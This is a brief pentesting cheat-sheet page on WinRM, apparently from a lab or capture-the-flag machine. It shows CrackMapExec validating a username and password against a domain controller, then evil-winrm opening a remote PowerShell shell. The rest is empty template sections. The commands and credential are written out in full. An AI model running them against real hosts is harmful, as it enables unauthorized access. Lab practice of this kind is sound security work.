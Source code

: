 # 5985,5986-WinRM.md

https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm

- [cme winrm $ip -u s.smith -p sT333ve2](#cme-winrm-ip--u-ssmith--p-st333ve2)
- [evil-winrm -i $ip -u s.smith -p sT333ve2](#evil-winrm--i-ip--u-ssmith--p-st333ve2)

-------------------------------------------

### cme winrm $ip -u s.smith -p sT333ve2
```
$ cme winrm $ip -u s.smith -p sT333ve2
SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
HTTP        10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)
```

### evil-winrm -i $ip -u s.smith -p sT333ve2
```
$ evil-winrm -i $ip -u s.smith -p sT333ve2
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\s.smith\Documents> whoami
cascade\s.smith
*Evil-WinRM* PS C:\Users\s.smith\Documents>
```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```